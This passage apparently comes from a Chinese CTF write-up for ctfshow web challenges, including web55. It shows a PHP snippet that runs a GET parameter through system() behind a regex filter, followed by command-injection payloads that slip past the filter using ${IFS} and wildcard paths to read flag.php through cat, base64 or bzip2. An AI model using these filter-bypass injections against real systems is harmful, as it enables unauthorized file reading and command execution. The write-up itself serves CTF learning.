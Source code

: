 ```bash
?c=paste${IFS}fla?.php
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/169dd2731e063a291298941734c709ab.png" alt="" style="max-height:191px; box-sizing:content-box;" />


或者继续使用cat

通过模糊匹配

```ruby
?c=/bin/?at${IFS}fla?????
```

## web55   base64返回值  bzip2解压后下载

```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
} 
```

过滤a-z字母

### base64

我们可以通过bin下的base64命令返回

```ruby
?c=/???/????64 ????.???
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/7ff84cab2bc36adaa709a9984c3ad5e2.png" alt="" style="max-height:271px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/f6d82e59b2766cd9197e54de794aea4c.png" alt="" style="max-height:392px; box-sizing:content-box;" />


### bzip2

bzip是存在 /usr/bin/bzip2

所以我们构造

```ruby
?c=/???/???/????2 ????.???
```

